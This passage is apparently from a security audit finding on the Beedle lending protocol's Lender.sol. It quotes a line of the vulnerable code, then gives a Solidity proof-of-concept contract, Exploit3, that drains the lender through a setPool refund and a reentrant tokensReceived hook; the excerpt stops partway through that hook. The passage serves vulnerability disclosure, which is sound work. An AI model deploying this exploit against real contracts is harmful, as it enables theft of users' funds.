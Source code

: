 ```solidity
                p.lender,
                currentBalance - p.poolBalance
            );
        }
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L159


## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit3.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit3  {
    Lender lender;
    Pool pool;

    constructor(Lender _lender) {
        lender = _lender;
    }

    function attack(address _loanToken, uint256 _poolBalance) external {
        ERC20(_loanToken).approve(address(lender), _poolBalance);
        // [1] Create a new pool
        Pool memory p = Pool({
            lender: address(this),
            loanToken: _loanToken,
            collateralToken: address(0),
            minLoanSize: 10*10**18,
            poolBalance: _poolBalance,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(p);
        // [2] Update pool with 0 poolBalance
        p.poolBalance = 0;
        pool = p;
        lender.setPool(p);
        // [3] Send the funds back to the attacker
        ERC20(_loanToken).transfer(msg.sender, ERC20(_loanToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 amount) external {
        Pool memory p = pool;
        require(msg.sender == p.loanToken, "not collateral token");
        if (from == address(lender)) {
            uint256 lenderBalance = ERC20(p.loanToken).balanceOf(address(lender));
            if (lenderBalance > 0) {
                // Re-enter
                if (lenderBalance < amount) {
```